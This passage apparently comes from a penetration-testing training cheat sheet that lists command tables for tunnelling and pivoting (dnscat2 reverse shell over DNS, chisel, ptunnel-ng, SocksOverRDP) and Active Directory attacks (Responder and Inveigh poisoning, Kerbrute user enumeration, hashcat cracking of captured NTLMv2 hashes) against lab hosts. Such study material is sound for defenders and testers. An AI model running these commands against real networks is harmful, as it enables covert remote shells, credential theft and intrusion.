 | `Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd` | PowerShell command used to connect to a specified dnscat2 server using a IP address, domain name and preshared secret. The client will send back a shell connection to the server (`-Exec cmd`). |
| `dnscat2> ?`                                                   | Used to list dnscat2 options.                                |
| `dnscat2> window -i 1`                                         | Used to interact with an established dnscat2 session.        |
| `./chisel server -v -p 1234 --socks5`                          | Used to start a chisel server in verbose mode listening on port `1234` using SOCKS version 5. |
| `./chisel client -v 10.129.202.64:1234 socks`                  | Used to connect to a chisel server at the specified IP address & port using socks. |
| `git clone https://github.com/utoni/ptunnel-ng.git`            | Clones the ptunnel-ng project GitHub repository.             |
| `sudo ./autogen.sh`                                            | Used to run the autogen.sh shell script that will build the necessary ptunnel-ng files. |
| `sudo ./ptunnel-ng -r10.129.202.64 -R22`                       | Used to start the ptunnel-ng server on the specified IP address (`-r`) and corresponding port (`-R22`). |
| `sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22` | Used to connect to a specified ptunnel-ng server through local port 2222 (`-l2222`). |
| `ssh -p2222 -lubuntu 127.0.0.1`                                | SSH command used to connect to an SSH server through a local port. This can be used to tunnel SSH traffic through an ICMP tunnel. |
| `regsvr32.exe SocksOverRDP-Plugin.dll`                         | Windows-based command used to register the SocksOverRDP-PLugin.dll. |
| `netstat -antb \|findstr 1080`                                 | Windows-based command used to list TCP network connections listening on port 1080. |

<a id="13-active-directory-enumeration--attacks"></a>
### 13. Active Directory Enumeration & Attacks

#### Initial Enumeration 

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `nslookup ns1.inlanefreight.com`                             | Used to query the domain name system and discover the IP address to domain name mapping of the target entered from a Linux-based host. |
| `sudo tcpdump -i ens224`                                     | Used to start capturing network packets on the network interface proceeding the `-i` option a Linux-based host. |
| `sudo responder -I ens224 -A`                                | Used to start responding to & analyzing `LLMNR`, `NBT-NS` and `MDNS` queries on the interface specified proceeding the` -I` option and operating in `Passive Analysis` mode which is activated using `-A`. Performed from a Linux-based host |
| `fping -asgq 172.16.5.0/23`                                  | Performs a ping sweep on the specified network segment from a Linux-based host. |
| `sudo nmap -v -A -iL hosts.txt -oN /home/User/Documents/host-enum` | Performs an nmap scan that with OS detection, version detection, script scanning, and traceroute enabled (`-A`) based on a list of hosts (`hosts.txt`) specified in the file proceeding `-iL`. Then outputs the scan results to the file specified after the `-oN`option. Performed from a Linux-based host |
| `sudo git clone https://github.com/ropnop/kerbrute.git`      | Uses `git` to clone the kerbrute tool from a Linux-based host. |
| `make help`                                                  | Used to list compiling options that are possible with `make` from a Linux-based host. |
| `sudo make all`                                              | Used to compile a `Kerbrute` binary for multiple OS platforms and CPU architectures. |
| `./kerbrute_linux_amd64`                                     | Used to test the chosen complied `Kebrute` binary from a Linux-based host. |
| `sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute`       | Used to move the `Kerbrute` binary to a directory can be set to be in a Linux user's path. Making it easier to use the tool. |
| `./kerbrute_linux_amd64 userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o kerb-results` | Runs the Kerbrute tool to discover usernames in the domain (`INLANEFREIGHT.LOCAL`) specified proceeding the `-d` option and the associated domain controller specified proceeding `--dc`using a wordlist and outputs (`-o`) the results to a specified file. Performed from a Linux-based host. |

#### LLMNR/NTB-NS Poisoning 

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `responder -h`                                               | Used to display the usage instructions and various options available in `Responder` from a Linux-based host. |
| `hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt` | Uses `hashcat` to crack `NTLMv2` (`-m`) hashes that were captured by responder and saved in a file (`frond_ntlmv2`). The cracking is done based on a specified wordlist. |
| `Import-Module .\Inveigh.ps1`                                | Using the `Import-Module` PowerShell cmd-let to import the Windows-based tool `Inveigh.ps1`. |
| `(Get-Command Invoke-Inveigh).Parameters`                    | Used to output many of the options & functionality available with `Invoke-Inveigh`. Peformed from a Windows-based host. |
| `Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y`    | Starts `Inveigh` on a Windows-based host with LLMNR & NBNS spoofing enabled and outputs the results to a file. |